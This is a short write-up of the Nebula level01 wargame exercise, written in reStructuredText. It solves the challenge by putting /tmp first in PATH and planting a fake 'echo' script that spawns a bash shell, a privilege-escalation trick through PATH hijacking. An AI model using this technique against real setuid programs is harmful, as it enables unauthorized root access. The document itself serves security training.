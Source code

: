 .. _nebula01:

.. role:: bash(code)
	  :language: bash

Nebula level 01
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level01/

Solution
--------

Export :bash:`PATH` first

:bash:`$ export PATH=/tmp:$PATH`

On :bash:`tmp` create a bash script with this and name it echo (without extension):

.. code-block:: bash
		#!/bin/bash
		bash

:bash:`$ chmod 777 echo`

and last execute

:bash:`getflag` 


